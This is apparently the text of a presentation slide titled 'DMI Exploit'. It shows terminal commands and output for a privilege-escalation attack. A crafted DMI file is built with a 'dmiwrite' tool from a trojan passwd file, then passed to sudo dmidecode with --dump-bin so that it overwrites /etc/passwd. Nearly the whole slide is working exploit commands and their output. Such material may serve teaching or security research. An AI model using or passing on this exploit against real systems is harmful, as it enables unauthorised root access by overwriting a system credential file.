

# DMI Exploit
[jenkins@target ~]$ sudo dmidecode --no-sysfs -d /tmp/crafted.dmi --dump-bin /etc/passwd
# dmidecode 3.0
Scanning dmi for entry point.
SMBIOS 2.1 present.
1 structures occupying 1209 bytes.
Table at 0x00000000.

# Writing 1209 bytes to /etc/passwd.
# Writing 0 bytes to /etc/passwd.
/etc/passwd: fwrite: No such file or directory
[root@home ~]# ./dmiwrite trojan_passwd.in crafted.dmi
Wrote payload of length 1209 to crafted.dmi
Padding 981831 bytes to crafted.dmi
Setting checksum: memset(buf+30, 170, 1);

Wrote DMI header of length 32 to crafted.dmi
Padding 65536 bytes to crafted.dmi
Congratulations, crafted.dmi looks like a valid DMI file.